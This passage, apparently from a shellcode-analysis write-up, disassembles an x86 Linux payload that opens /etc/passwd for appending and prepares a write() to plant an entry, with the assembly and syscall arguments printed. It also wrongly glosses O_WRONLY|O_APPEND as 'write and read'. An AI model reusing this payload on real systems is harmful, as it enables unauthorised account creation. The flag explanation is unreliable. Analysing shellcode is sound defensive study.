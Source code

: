
EAX is populated with a 5 which is defined as open() in `/usr/include/i386-linux-gnu/asm/unistd_32.h`

We can see EBX is pointing to an memory address on the stack which contains `/etc//passwd`. The extra / is in there to make the string even for hexadecimal. This was setup by the three push calls:

```nasm
push   0x64777373		; "dwss"
push   0x61702f2f		; "ap//"
push   0x6374652f		; "cte/"
```

We can also see ECX has a value of 0x401 which sets our flags to `O_WRONLY|O_APPEND`, meaning write and read with append. So our final syscall here looks like such:

```
open("/etc//passwd", O_WRONLY|O_APPEND)
```

## write()

Next chunk of assembly:

```nasm
xchg   ebx,eax			
call   0x402091 <code+81>	
popa   			
bound  esi,QWORD PTR [ebx+0x6f]
ins    BYTE PTR es:[edi],dx
outs   dx,DWORD PTR ds:[esi]
ins    DWORD PTR es:[edi],dx
bound  edi,QWORD PTR [edx]
inc    ecx
jp     0x4020aa
addr16 cs jp 0x4020dd
jno    0x4020b6
arpl   WORD PTR [edx+0x37],si
arpl   WORD PTR [edx],di
xor    BYTE PTR [edx],bh
xor    BYTE PTR [edx],bh
cmp    ch,BYTE PTR [edi]
cmp    ch,BYTE PTR [edi]
bound  ebp,QWORD PTR [ecx+0x6e]
das    
jae    0x4020f8
or     bl,BYTE PTR [ecx-0x75]	
push   ecx		     	
cld			      
push   0x4		     	
pop    eax	
int    0x80	
```

The first thing that happens in this section is the return value from the open() syscall (stored in EAX) is preserved by doing an XCHG with EBX. Since EAX will get used for the next syscall, the file descriptor must be stored elsewhere. 
